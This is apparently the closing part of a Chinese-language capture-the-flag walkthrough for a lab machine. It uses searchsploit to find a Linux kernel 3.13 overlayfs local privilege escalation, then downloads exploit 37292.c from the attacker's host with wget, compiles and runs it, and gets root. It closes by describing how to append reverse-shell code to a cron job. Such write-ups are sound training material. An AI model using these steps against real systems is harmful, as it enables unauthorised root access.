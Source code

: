     TIMES UP LOL!                                                                  
                                                                                   
    Connection to 192.168.75.154 closed by remote host.
    Connection to 192.168.75.154 closed.
    ```
    
3. 别的方法尝试了，最后尝试内核漏洞
    
    ```sql
    searchsploit 3.13.0    
    //
    ----------------------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                                           |  Path
    ----------------------------------------------------------------------------------------- ---------------------------------
    Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privileg | linux/local/37292.c
    Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privileg | linux/local/37293.txt
    Unified Remote 3.13.0 - Remote Code Execution (RCE)                                      | windows/remote/51309.py
    ----------------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    ```
    
    将`37292.c`拉取下来，然后打开服务器方便靶机下载
    
    ```sql
    cd /tmp
    wget http://192.168.75.151/37292.c
    gcc 37292.c -o 37292  
    ./37292
    ```
    
    获得root
    
    ```sql
    whoami
    root
    ```
    

## 思路

直接讲提权，登陆一会被root弹出去肯定是存在crontab定时任务的，但是因为我cat /etc/crontab被权限拒绝后就停止这个思路了，查看红队笔记WP，寻找cronlog这种模糊字样最后找到定时任务，最后追加反弹shell代码即可